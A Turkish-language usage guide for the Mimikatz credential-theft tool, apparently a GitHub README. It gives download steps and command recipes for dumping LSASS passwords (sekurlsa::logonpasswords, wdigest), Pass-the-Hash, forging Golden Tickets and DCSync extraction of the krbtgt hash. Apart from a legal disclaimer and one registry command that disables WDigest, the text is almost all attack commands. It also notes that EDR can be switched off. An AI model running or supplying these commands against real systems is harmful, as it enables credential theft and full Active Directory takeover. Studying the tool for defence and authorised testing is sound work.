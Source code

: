 # Mimikatz Kullanım Rehberi

## Mimikatz Nedir?

Mimikatz, güvenlik araştırmacısı **Benjamin Delpy** tarafından geliştirilen açık kaynaklı bir araçtır. Temel olarak, Windows işletim sistemlerinde kimlik bilgileri ve parolalar gibi kritik bilgileri çıkarmak için kullanılır. Mimikatz, hem saldırganlar hem de güvenlik profesyonelleri tarafından yaygın olarak kullanılmaktadır.

> **Önemli Not:** Mimikatz yasal olarak yalnızca test laboratuvarlarında veya sahibinin izni olan sistemlerde kullanılmalıdır. Aksi takdirde yasa dışıdır ve etik dışı sonuçlara yol açabilir.

---

## Ana Özellikleri

1. **LSASS (Local Security Authority Subsystem Service) belleğinden parolaları çıkarma**
2. **Kerberos biletlerini okuma, kaydetme ve manipüle etme**
3. **Altın Bilet (Golden Ticket) ve Gümüş Bilet (Silver Ticket) oluşturma**
4. **Pass-The-Hash saldırıları**
5. **Credential Dumping**
6. **SSP (Security Support Provider) oturum açma bilgilerini görüntüleme**
7. **Komut satırı tabanlı çalıştırma ve betik yazımı**

---

## İndirme ve Çalıştırma

Mimikatz, GitHub üzerinden indirilebilir:

- [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

### Çalıştırma Adımları

1. **İndir ve Ayıkla:**
   ```bash
   git clone https://github.com/gentilkiwi/mimikatz.git
   cd mimikatz/Win32
   ```
2. **Çalıştır:**
   Windows üzerinde PowerShell veya CMD kullanarak Mimikatz çalıştırabilirsiniz:
   ```cmd
   mimikatz.exe
   ```

---

## Kullanım Parametreleri

Aşağıda Mimikatz'ın en yaygın kullanılan modülleri ve parametreleri açıklanmıştır.

### 1. **`privilege::debug`**
- Yüksek ayrıcalıkların gerekli olduğu işlemler için kullanılır.

  ```cmd
  privilege::debug
  ```
  Bu komut, Mimikatz'ı sistem üzerinde daha fazla ayrıcalıkla çalıştırır.

### 2. **`sekurlsa::logonpasswords`**
- LSASS belleğindeki oturum bilgilerini görüntüler.

  ```cmd
  sekurlsa::logonpasswords
  ```
  **Not:** Yalnızca `Administrator` yetkileriyle çalışır.

### 3. **`sekurlsa::wdigest`**
- WDigest protokolüyle oturum açma bilgilerinin düz metin parolalarını görüntüler.

  ```cmd
  sekurlsa::wdigest
  ```

### 4. **`kerberos::list`**
- Kerberos biletlerini görüntüler.

  ```cmd
  kerberos::list /export
  ```
  **Not:** Bu komut ile Kerberos biletlerini dışa aktarabilirsiniz.

### 5. **`kerberos::golden`**
- Altın Bilet oluşturur. Bu bilet, Active Directory ortamlarında sınırsız erişim sağlar.

  ```cmd
  kerberos::golden /user:<username> /domain:<domainname> /sid:<domain_SID> /krbtgt:<krbtgt_hash> /id:<RID>
  ```

  **Parametreler:**
  - `user`: Kullanıcı adı
  - `domain`: Domain adı (örn: example.com)
  - `sid`: Domain'in SID değeri
  - `krbtgt`: Kerberos Ticket Granting Ticket hash değeri
  - `id`: Kullanıcının RID değeri (ör: 500 admin için)

### 6. **`sekurlsa::pth`**
- Pass-the-Hash saldırısı için kullanılır.

  ```cmd
  sekurlsa::pth /user:<username> /domain:<domainname> /ntlm:<hash> /run:<command>
  ```

  **Parametreler:**
  - `user`: Kullanıcı adı
  - `domain`: Domain adı
  - `ntlm`: NTLM hash değeri
  - `run`: Çalıştırılacak komut (ör: cmd.exe)

### 7. **`token::list`**
- Sistem üzerindeki tokenları listeler.

  ```cmd
  token::list
  ```

### 8. **`lsadump::dcsync`**
- Domain Controller'daki kimlik bilgilerini döker. Bu yöntem ile `NTLM` ve `Kerberos` hash bilgilerini çekebilirsiniz.

  ```cmd
  lsadump::dcsync /user:<username>
  ```

  **Örnek:**
  ```cmd
  lsadump::dcsync /user:krbtgt
  ```

### 9. **`misc::cmd`**
- Sistem üzerinde bir komut çalıştırır.

  ```cmd
  misc::cmd
  ```

### 10. **`exit`**
- Mimikatz oturumundan çıkış yapar.

  ```cmd
  exit
  ```

---

## Örnek Kullanım Senaryoları

### 1. WDigest ile Parola Çıkarma
```cmd
privilege::debug
sekurlsa::wdigest
```

### 2. Pass-the-Hash Kullanımı
```cmd
sekurlsa::pth /user:Administrator /domain:example.com /ntlm:<hash> /run:cmd.exe
```

### 3. Altın Bilet Oluşturma
```cmd
kerberos::golden /user:Administrator /domain:example.com /sid:S-1-5-21-1234567890 /krbtgt:<krbtgt_hash> /id:500
```

### 4. LSASS Belleğini Okuma
```cmd
privilege::debug
sekurlsa::logonpasswords
```

---

## Güvenlik ve Önlemler

- LSASS belleğinin okunmasını önlemek için **WDigest** devre dışı bırakılmalıdır:
  ```cmd
  reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
  ```

- Anti-Virus ve Endpoint Detection and Response (EDR) araçları Mimikatz'ı algılayabilir. Ancak bu tür araçlar test ortamlarında devre dışı bırakılabilir.

---

## Kaynaklar

- [Resmi GitHub Sayfası](https://github.com/gentilkiwi/mimikatz)
- [Benjamin Delpy Twitter](https://twitter.com/gentilkiwi)

---

> **Uyarı:** Bu rehber, yalnızca eğitim ve araştırma amaçlıdır. Yetkisiz kullanımlar yasa dışıdır.

